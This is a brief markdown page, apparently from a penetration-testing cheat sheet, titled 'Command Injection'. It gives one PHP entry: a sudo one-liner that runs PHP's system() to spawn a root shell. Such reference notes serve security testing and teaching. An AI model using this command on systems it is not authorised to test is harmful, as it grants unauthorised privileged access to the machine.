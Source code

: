 ```yaml
---
icon: terminal
---
```


# Command Injection

<details>

<summary><mark style="color:orange;"><strong><code>PHP</code></strong></mark></summary>

{% code title="Use PHP with sudo" overflow="wrap" %}
```sh
sudo /usr/bin/php -r 'system("/bin/sh");'
```
{% endcode %}

</details>

